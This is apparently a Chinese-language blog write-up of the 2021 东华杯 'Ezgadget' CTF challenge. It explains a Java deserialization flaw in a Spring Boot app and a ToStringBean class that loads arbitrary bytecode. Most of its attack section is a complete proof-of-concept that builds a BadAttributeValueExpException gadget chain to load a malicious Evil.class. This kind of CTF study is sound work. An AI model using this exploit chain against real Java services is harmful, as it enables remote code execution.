

环境搭建
在虚拟机中，pull下一个tomcat7+JDK8的镜像
运行jar包
复现过程
将得到的jar包反编译

在com.ezgame.ctf.controller#IndexController类中有一个路由/readObject传入一个参数data，将这个参数进行base64解码，之后传入输入流中
之后进行了readUTF/readInt操作满足if语句的条件就会进行反序列化
我们在构造序列化字符串的时候就需要writeUTF和writeInt对应的值，才能够满足这个if语句
来看看其他的类文件
//Tools.class
package BOOT-INF.classes.com.ezgame.ctf.tools;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
public class Tools {
public static byte[] base64Decode(String base64) {
Base64.Decoder decoder = Base64.getDecoder();
return decoder.decode(base64);
}
public static String base64Encode(byte[] bytes) {
Base64.Encoder encoder = Base64.getEncoder();
return encoder.encodeToString(bytes);
}
public static byte[] serialize(Object obj) throws Exception {
ByteArrayOutputStream btout = new ByteArrayOutputStream();
ObjectOutputStream objOut = new ObjectOutputStream(btout);
objOut.writeObject(obj);
return btout.toByteArray();
}
public static Object deserialize(byte[] serialized) throws Exception {
ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
ObjectInputStream objIn = new ObjectInputStream(btin);
return objIn.readObject();
}
}提供了进行序列化或者反序列化和base64编码或者解码的一个工具类
//ToStringBean.class
package BOOT-INF.classes.com.ezgame.ctf.tools;
import java.io.Serializable;
public class ToStringBean extends ClassLoader implements Serializable {
private byte[] ClassByte;
public String toString() {
com.ezgame.ctf.tools.ToStringBean toStringBean = new com.ezgame.ctf.tools.ToStringBean();
Class clazz = toStringBean.defineClass((String)null, this.ClassByte, 0, this.ClassByte.length);
Object Obj = null;
try {
Obj = clazz.newInstance();
} catch (InstantiationException e) {
e.printStackTrace();
} catch (IllegalAccessException e) {
e.printStackTrace();
}
return "enjoy it.";
}
}这个类继承了ClassLoader类，并且实现了Serializable接口，并且重写了toString()
而且，在重写的toString方法中调用了defineClass方法实现动态加载类的功能，这里的this.ClassByte就是我们需要传入恶意字节码的位置
我们知道在CC5中就是用BadAttributeValueExpException构造了恶意类，通过给val赋值造成ToStringBean#toString的调用
这里我们也可以这样
//POC
package ysoserial.exp;
import ysoserial.tools.ToStringBean;
import ysoserial.tools.Tools;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
public class Exp {
public static void main(String[] args) throws NoSuchFieldException, IOException, IllegalAccessException {
//反射赋值
ToStringBean toStringBean = new ToStringBean();
Field field = toStringBean.getClass().getDeclaredField("ClassByte");
byte[] bytes = Files.readAllBytes(Paths.get("D:\\Evil.class"));
field.setAccessible(true);
field.set(toStringBean,bytes);
//构造利用链
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);
Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(badAttributeValueExpException, toStringBean);
//写入writeUTF/writeInt
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
objectOutputStream.writeUTF("gadgets");
objectOutputStream.writeInt(2021);
objectOutputStream.writeObject(badAttributeValueExpException);
byte[] bytes1 = barr.toByteArray();
String s = Tools.base64Encode(bytes1);
System.out.println(s);
}
}将得到的POC传入
I'm so cute. Please give me money.


- Post link: https://roboterh.github.io/2022/04/10/2021%E4%B8%9C%E5%8D%8E%E6%9D%AFEzgadget/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.